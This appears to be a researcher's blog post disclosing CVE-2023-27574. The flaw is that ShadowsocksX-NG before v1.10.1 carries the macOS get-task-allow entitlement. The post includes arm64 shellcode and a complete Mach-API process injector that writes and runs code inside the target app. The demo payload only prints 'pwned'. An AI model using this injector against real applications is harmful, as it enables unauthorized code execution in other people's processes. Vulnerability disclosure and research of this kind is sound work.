 ```yaml
---
title: CVE-2023-27574 - Shadowsocks-NG code execution
description: Exploiting get-task-allow for code execution
date: 2023-03-05T13:45:06.348045+01:00
toc: true
tags:
    - cve
    - vuln
    - reverse-engineering
refs:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27574
    - https://github.com/shadowsocks/ShadowsocksX-NG/pull/1456
    - https://shadowsocks.org
draft: false
---
```


# Introduction

Recently, I started playing a bit with different methods of code injection inside the MacOS applications. 
The version of  [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG/releases/tag/v1.10.1) prior to `v1.10.1` has `com.apple.security.get-task-allow` entitlement.

This entitlement allows other processes to obtain the applications task. Obtaining the task means you can do with the process everything you want(code execution, memory read/write etc).

At the end of this post, we will be exploiting this to write `pwned` text to the STDOUT of the application. Nothing fancy about it, just demonstrates the  usage of mach API and a bit of shellcoding for arm64.

We will utilize mach vm API with the `thread_create_running` to execute our shellcode on macOS Ventura running on M1 using arm64 architecture.

# Analysis

Application [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG) is MacOS client for the original shadowsocks. Shadowsocks is a tool that helps to circumvent firewalls.

To view the entitlements, we can use `codesign -dv --entitlements :- /path/to/the/binary`

```bash
$ codesign -d --entitlements :- /Applications/ShadowsocksX-NG.app/Contents/MacOS/ShadowsocksX-NG 2> /dev/null | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>com.apple.security.get-task-allow</key>
    <true/>
  </dict>
</plist>
```

We can see that the application has only entitlement, and it is `com.apple.security.get-task-allow`. 

# Mach VM API

We will utilize mach vm api to exploit the entitlement:  
* `task_for_pid` - to obtain the task for the process id of ShadowsocksX-NG  
* `mach_vm_allocate` - to allocate the space inside the process  
* `mach_vm_write` - to write our shellcode inside the allocated space  
* `vm_protect` - to enable executing allocated space
* `thread_create_running` - to run our shellcode inside the process space in a new thread

The exploitation steps are:

1. obtain the pid
2. try to get applications task
3. allocate space for the shellcode
4. allocate space for the stack
5. write shellcode
6. give execute permission at the shellcode address
7. create new thread
8. execute thread

```nasm
.global _main
.align 4

_main:
        mov x0, #1

        mov x4, #0x7770                         ; write wp
        movk x4, #0x656e, lsl #16       ; write en
        movk x4, #0x0a64, lsl #32       ; write \nd
        str x4, [sp, #-8]
        mov x5, #8
        sub x1, sp, x5  

        mov x2, #6 ; length
        mov x16, #0x4
        svc #0x80

        mov x0, #6 ; exit status call
        mov x16, #1
        svc #0xffff
```

Full exploit source code:  
```c
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <ptrauth.h>

#define STACK_SIZE 65536
#define CODE_SIZE 124

extern kern_return_t mach_vm_allocate(task_t task, mach_vm_address_t *addr, mach_vm_size_t size, int flags);
extern kern_return_t mach_vm_read(vm_map_t target_task, mach_vm_address_t address, mach_vm_size_t size, vm_offset_t *data, mach_msg_type_number_t *dataCnt);
extern kern_return_t mach_vm_write(vm_map_t target_task, mach_vm_address_t address, vm_offset_t data, mach_msg_type_number_t dataCnt);

char shellCode[] = "\x20\x00\x80\xd2\x04\xee\x8e\xd2\xc4\xad\xac\xf2\x84\x4c\xc1\xf2\xe4\x83\x1f\xf8\x05\x01\x80\xd2\xe1\x63\x25\xcb\xc2\x00\x80\xd2\x90\x00\x80\xd2\x01\x10\x00\xd4\xc0\x00\x80\xd2\x30\x00\x80\xd2\xe1\xff\x1f\xd4\x01\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x02\x00\x00\x00\x80\x3f\x00\x00\x34\x00\x00\x00\x34\x00\x00\x00\xb5\x3f\x00\x00\x00\x00\x00\x00\x34\x00\x00\x00\x03\x00\x00\x00\x0c\x00\x01\x00\x10\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00";

pid_t getShadowPID() {
    NSString * appPID = @"com.qiuyuzhou.ShadowsocksX-NG";
    NSArray<NSRunningApplication *> *runningShadowsocks = [NSRunningApplication runningApplicationsWithBundleIdentifier:appPID];
    
    if (runningShadowsocks == nil || [runningShadowsocks count] == 0) {
        printf("[!] Exploit failed!\n");
        exit(-1);
    }
    
    NSRunningApplication *ShadowsocksX_NG = runningShadowsocks[0];
    pid_t shadowPID = [ShadowsocksX_NG processIdentifier];
    
    return shadowPID;
}

int main(int argc, const char * argv[]) {
    pid_t shadowPID = getShadowPID();
    
    task_t remoteTask;
    kern_return_t kr = task_for_pid(current_task(), shadowPID, &remoteTask);
    
    if (kr != KERN_SUCCESS) {
        printf("[!] Failed to get ShadowsocksX-NG's task: %s\n", mach_error_string(kr));
        exit(-2);
    } else {
        printf("[+] ShadowsocksX-NG's task successfully taken over: %d\n", remoteTask);
    }

    mach_vm_address_t remoteStack = (vm_address_t)NULL;
    mach_vm_address_t remoteCode = (vm_address_t)NULL;

    kr = mach_vm_allocate(remoteTask, &remoteStack, STACK_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated stack at: 0x%llx\n", remoteStack);
    }

    kr = mach_vm_allocate(remoteTask, &remoteCode, CODE_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated code at: 0x%llx\n", remoteCode);
    }

    kr = mach_vm_write(remoteTask, remoteCode, (vm_address_t)shellCode,CODE_SIZE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to write code: %s\n", mach_error_string(kr));
    } else {
        printf("written code at: 0x%llx\n", remoteCode);
    }

    kr  = vm_protect(remoteTask, remoteCode, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

    remoteStack += (STACK_SIZE / 2);

    task_flavor_t flavor = ARM_THREAD_STATE64;
    mach_msg_type_number_t count = ARM_THREAD_STATE64_COUNT;

    arm_thread_state64_t state;

    state.__pc = (uintptr_t)remoteCode;
    state.__sp = (uintptr_t)remoteStack;

    thread_act_t thread;
    kr = thread_create_running(remoteTask, flavor, (thread_state_t)&state, count, &thread);

    if (kr != KERN_SUCCESS) {
        printf("error spawning thread: %s\n", mach_error_string(kr));
    } else {
        printf("done\n");
    }

    return 0;
}
```


![Running exploit](../images/shadow_run.png)